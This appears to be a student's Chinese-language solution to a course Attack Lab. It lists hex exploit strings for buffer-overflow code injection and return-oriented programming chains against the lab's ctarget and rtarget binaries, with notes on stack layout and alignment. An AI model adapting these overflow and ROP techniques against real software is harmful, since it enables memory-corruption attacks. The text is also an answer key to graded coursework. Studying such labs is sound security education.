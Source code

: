 ### ctarget

#### Level 1

```c
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
/* 40 dummy bytes */

c0 17 40 00 00 00 00 00
/* inject return address*/
```

`getbuf`返回前做了`add $0x28,%rsp`，这时%rsp位置上就是函数返回地址，把它换掉即可。

#### Level 2

```c
48 c7 c7 fa 97 b9 59  /* mov $0x59b997fa, %rdi */
68 ec 17 40 00        /* pushq  $0x4017ec */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
```

和Level1一样hack返回地址，这次跳回输入缓冲区的头部，这里放一段inject code。需要把待传参的参数放在rdi寄存器里，然后push一个`touch2`的返回地址并`ret`。

#### Level 3 

```c
48 c7 c7 a8 dc 61 55  /* mov $0x5561dca8, %rdi */
68 fa 18 40 00        /* pushq  $0x4018fa */
c3                    /* retq */
/* byte code = 13 bytes */

01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27
/* 27 dummy bytes */

78 dc 61 55 00 00 00 00
/* return address */

35 39 62 39 39 37 66 61 00
/* injected string */
```

需要把cookie的字符串摆在某个内存位置中。如果摆在return address之前，相当于位于`getbuf`的栈帧中，这部分一定会被`hexmatch`的栈帧覆盖掉（该函数申请了大数组）。所以必须把这部分字符串摆在返回地址之后，即`test`的栈帧中。

### rtarget

#### Level 2

```c
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
/* 40 dummy bytes */

ab 19 40 00 00 00 00 00
/* gadget 1: popq %rax*/

fa 97 b9 59 00 00 00 00
/* my cookie */

c5 19 40 00 00 00 00 00 
/* gadget 2: movq %rax, %rdi*/

ec 17 40 00 00 00 00 00
/* touch2 entry */
```

注意每次`ret`会使得`%rsp`+8。

#### Level 3

```c
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
/* 40 dummy bytes */

06 1a 40 00 00 00 00 00
/* gadget 1: movq %rsp,%rax */

c5 19 40 00 00 00 00 00 
/* gadget 2: movq %rax,%rdi */

d6 19 40 00 00 00 00 00
/* gadget 3: lea ($rdi,%rsi,1),%rax */

c5 19 40 00 00 00 00 00 
/* gadget 4: movq %rax,%rdi */

e6 19 40 00 00 00 00 00
/* gadget 5: nop */

fa 18 40 00 00 00 00 00
/* touch3 entry */

08 08 08 08 08 08 08 08
/* 8 dummy bytes */

35 39 62 39 39 37 66 61 00
/* injected string */
```

大体思路是要取到放injected string的地址，但栈随机化导致不能硬编码这个地址，必须拿到%rsp的值然后去加。首先我取了%rsp，另一个加数直接使用了%rsi的当前值（48，其实也可以手动放一个在栈里然后pop出来，实现自定义）。这时候发现要让字符串的位置再往后16字节才能刚好凑上，所以必须加16个凑数字节。

注意：这16个字节必须是一句空`ret`（gadget 5）和8个占位字节。因为%rsp必须对齐到16字节，否则浮点指令`movaps`会报seg fault。而一个`ret`刚好可以把%rsp推后8字节，0个或者2个`ret`都会导致%rsp只对齐到8字节而没有对齐到16字节。
